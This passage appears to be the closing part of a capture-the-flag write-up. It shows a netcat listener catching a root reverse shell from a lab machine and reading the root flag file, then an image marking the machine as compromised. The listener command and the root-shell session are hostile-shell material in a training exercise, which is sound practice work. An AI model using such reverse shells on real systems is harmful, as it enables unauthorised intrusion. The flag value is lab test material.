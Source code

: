 If we look back on our listener:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.219] 53476
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
ac1e4331310d2b302a35d1c86cecbfd5
```

![](machine_pwned.png){: width="75%" .normal}